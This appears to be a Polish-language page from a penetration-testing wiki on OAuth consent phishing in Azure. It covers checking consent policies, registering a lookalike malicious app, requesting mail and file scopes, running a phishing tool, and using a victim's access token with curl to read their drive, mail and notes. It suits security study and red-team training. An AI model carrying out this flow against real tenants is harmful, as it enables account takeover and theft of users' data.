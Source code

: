 # Az - OAuth Apps Phishing

{{#include ../../../banners/hacktricks-training.md}}

## Phishing aplikacji OAuth

**Aplikacje Azure** są konfigurowane z uprawnieniami, które będą mogły być używane, gdy użytkownik wyrazi zgodę na aplikację (takimi jak enumeracja katalogu, dostęp do plików lub wykonywanie innych działań). Należy pamiętać, że aplikacja będzie działać w imieniu użytkownika, więc nawet jeśli aplikacja mogłaby prosić o uprawnienia administracyjne, jeśli **użytkownik, który wyraża zgodę, nie ma tych uprawnień**, aplikacja **nie będzie mogła wykonywać działań administracyjnych**.

### Uprawnienia zgody aplikacji

Domyślnie każdy **użytkownik może wyrazić zgodę na aplikacje**, chociaż można to skonfigurować tak, aby użytkownicy mogli wyrażać zgodę tylko na **aplikacje od zweryfikowanych wydawców dla wybranych uprawnień** lub nawet **usunąć uprawnienie** dla użytkowników do wyrażania zgody na aplikacje.

<figure><img src="../../../images/image.png" alt=""><figcaption></figcaption></figure>

Jeśli użytkownicy nie mogą wyrażać zgody, **administratorzy** tacy jak `GA`, `Administrator aplikacji` lub `Administrator aplikacji w chmurze` mogą **wyrażać zgodę na aplikacje**, z których użytkownicy będą mogli korzystać.

Co więcej, jeśli użytkownicy mogą wyrażać zgodę tylko na aplikacje z **niskim ryzykiem** uprawnień, te uprawnienia to domyślnie **openid**, **profil**, **email**, **User.Read** i **offline_access**, chociaż możliwe jest **dodanie więcej** do tej listy.

A jeśli mogą wyrażać zgodę na wszystkie aplikacje, mogą wyrażać zgodę na wszystkie aplikacje.

### 2 Typy ataków

- **Nieautoryzowany**: Z zewnętrznego konta utwórz aplikację z **niskim ryzykiem uprawnień** `User.Read` i `User.ReadBasic.All`, na przykład, phishinguj użytkownika, a będziesz mógł uzyskać dostęp do informacji katalogowych.
- To wymaga, aby phishingowany użytkownik był **w stanie zaakceptować aplikacje OAuth z zewnętrznego najemcy**.
- Jeśli phishingowany użytkownik jest jakimś administratorem, który może **wyrażać zgodę na każdą aplikację z dowolnymi uprawnieniami**, aplikacja może również **żądać uprawnień uprzywilejowanych**.
- **Autoryzowany**: Po skompromitowaniu podmiotu z wystarczającymi uprawnieniami, **utwórz aplikację wewnątrz konta** i **phishinguj** jakiegoś **uprzywilejowanego** użytkownika, który może zaakceptować uprzywilejowane uprawnienia OAuth.
- W tym przypadku możesz już uzyskać dostęp do informacji katalogowych, więc uprawnienie `User.ReadBasic.All` nie jest już interesujące.
- Prawdopodobnie interesują Cię **uprawnienia, które wymagają zgody administratora**, ponieważ zwykły użytkownik nie może przyznać aplikacjom OAuth żadnych uprawnień, dlatego musisz **phishingować tylko tych użytkowników** (więcej na temat ról/uprawnień, które przyznają to uprawnienie później).

### Użytkownicy mogą wyrażać zgodę

Należy pamiętać, że musisz wykonać to polecenie z konta użytkownika wewnątrz najemcy, nie możesz znaleźć tej konfiguracji najemcy z zewnętrznego. Następujące polecenie CLI może pomóc Ci zrozumieć uprawnienia użytkowników:
```bash
az rest --method GET --url "https://graph.microsoft.com/v1.0/policies/authorizationPolicy"
```
- Użytkownicy mogą wyrażać zgodę na wszystkie aplikacje: Jeśli wewnątrz **`permissionGrantPoliciesAssigned`** znajdziesz: `ManagePermissionGrantsForSelf.microsoft-user-default-legacy`, to użytkownicy mogą akceptować każdą aplikację.
- Użytkownicy mogą wyrażać zgodę na aplikacje od zweryfikowanych wydawców lub twojej organizacji, ale tylko na uprawnienia, które wybierzesz: Jeśli wewnątrz **`permissionGrantPoliciesAssigned`** znajdziesz: `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-team`, to użytkownicy mogą akceptować każdą aplikację.
- **Wyłącz zgodę użytkownika**: Jeśli wewnątrz **`permissionGrantPoliciesAssigned`** znajdziesz tylko: `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-chat` i `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-team`, to użytkownicy nie mogą wyrażać zgody na żadne.

Możliwe jest znalezienie znaczenia każdej z komentowanych polityk w:
```bash
az rest --method GET --url "https://graph.microsoft.com/v1.0/policies/permissionGrantPolicies"
```
### **Administratorzy aplikacji**

Sprawdź użytkowników, którzy są uważani za administratorów aplikacji (mogą akceptować nowe aplikacje):
```bash
# Get list of roles
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles"

# Get Global Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/1b2256f9-46c1-4fc2-a125-5b2f51bb43b7/members"

# Get Application Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/1e92c3b7-2363-4826-93a6-7f7a5b53e7f9/members"

# Get Cloud Applications Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/0d601d27-7b9c-476f-8134-8e7cd6744f02/members"
```
## **Przegląd Przepływu Ataku**

Atak składa się z kilku kroków, które mają na celu zaatakowanie ogólnej firmy. Oto jak może się to rozwinąć:

1. **Rejestracja Domeny i Hosting Aplikacji**: Atakujący rejestruje domenę przypominającą zaufaną stronę, na przykład "safedomainlogin.com". Pod tą domeną tworzony jest subdomena (np. "companyname.safedomainlogin.com"), aby hostować aplikację zaprojektowaną do przechwytywania kodów autoryzacyjnych i żądania tokenów dostępu.
2. **Rejestracja Aplikacji w Azure AD**: Atakujący następnie rejestruje aplikację wielo-tenantową w swoim dzierżawcy Azure AD, nadając jej nazwę po docelowej firmie, aby wyglądała na legalną. Konfiguruje URL przekierowania aplikacji, aby wskazywał na subdomenę hostującą złośliwą aplikację.
3. **Ustawienie Uprawnień**: Atakujący ustawia aplikację z różnymi uprawnieniami API (np. `Mail.Read`, `Notes.Read.All`, `Files.ReadWrite.All`, `User.ReadBasic.All`, `User.Read`). Te uprawnienia, po przyznaniu przez użytkownika, pozwalają atakującemu na wydobycie wrażliwych informacji w imieniu użytkownika.
4. **Dystrybucja Złośliwych Linków**: Atakujący tworzy link zawierający identyfikator klienta złośliwej aplikacji i dzieli się nim z docelowymi użytkownikami, oszukując ich, aby zgodzili się na udzielenie zgody.

## Przykład Ataku

1. Zarejestruj **nową aplikację**. Może być tylko dla bieżącego katalogu, jeśli używasz użytkownika z zaatakowanego katalogu lub dla dowolnego katalogu, jeśli jest to atak zewnętrzny (jak na poniższym obrazku).
1. Ustaw również **URI przekierowania** na oczekiwaną URL, gdzie chcesz otrzymać kod do uzyskania tokenów (`http://localhost:8000/callback` domyślnie).

<figure><img src="../../../images/image (1).png" alt=""><figcaption></figcaption></figure>

2. Następnie utwórz sekret aplikacji:

<figure><img src="../../../images/image (2).png" alt=""><figcaption></figcaption></figure>

3. Wybierz uprawnienia API (np. `Mail.Read`, `Notes.Read.All`, `Files.ReadWrite.All`, `User.ReadBasic.All`, `User.Read`)

<figure><img src="../../../images/image (3).png" alt=""><figcaption></figcaption></figure>

4. **Wykonaj stronę internetową (**[**azure_oauth_phishing_example**](https://github.com/carlospolop/azure_oauth_phishing_example)**)**, która prosi o uprawnienia:
```bash
# From https://github.com/carlospolop/azure_oauth_phishing_example
python3 azure_oauth_phishing_example.py --client-secret <client-secret> --client-id <client-id> --scopes "email,Files.ReadWrite.All,Mail.Read,Notes.Read.All,offline_access,openid,profile,User.Read"
```
5. **Wyślij URL do ofiary**
1. W tym przypadku `http://localhost:8000`
6. **Ofiary** muszą **zaakceptować komunikat:**

<figure><img src="../../../images/image (4).png" alt=""><figcaption></figcaption></figure>

7. Użyj **tokena dostępu, aby uzyskać żądane uprawnienia**:
```bash
export ACCESS_TOKEN=<ACCESS_TOKEN>

# List drive files
curl -X GET \
https://graph.microsoft.com/v1.0/me/drive/root/children \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"

# List eails
curl -X GET \
https://graph.microsoft.com/v1.0/me/messages \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"

# List notes
curl -X GET \
https://graph.microsoft.com/v1.0/me/onenote/notebooks \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"
```
## Inne narzędzia

- [**365-Stealer**](https://github.com/AlteredSecurity/365-Stealer)**:** Sprawdź [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer), aby dowiedzieć się, jak go skonfigurować.
- [**O365-Attack-Toolkit**](https://github.com/mdsecactivebreach/o365-attack-toolkit)

## Post-eksploatacja

### Phishing po eksploatacji

W zależności od żądanych uprawnień możesz być w stanie **uzyskać dostęp do różnych danych najemcy** (lista użytkowników, grup... lub nawet modyfikować ustawienia) oraz **informacji o użytkowniku** (pliki, notatki, e-maile...). Następnie możesz wykorzystać te uprawnienia do wykonania tych działań.

### Eksploatacja aplikacji po

Sprawdź sekcje Aplikacje i Główne zasoby na stronie:

{{#ref}}
../az-privilege-escalation/az-entraid-privesc/
{{#endref}}

## Odniesienia

- [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer)
- [https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/](https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/)

{{#include ../../../banners/hacktricks-training.md}}
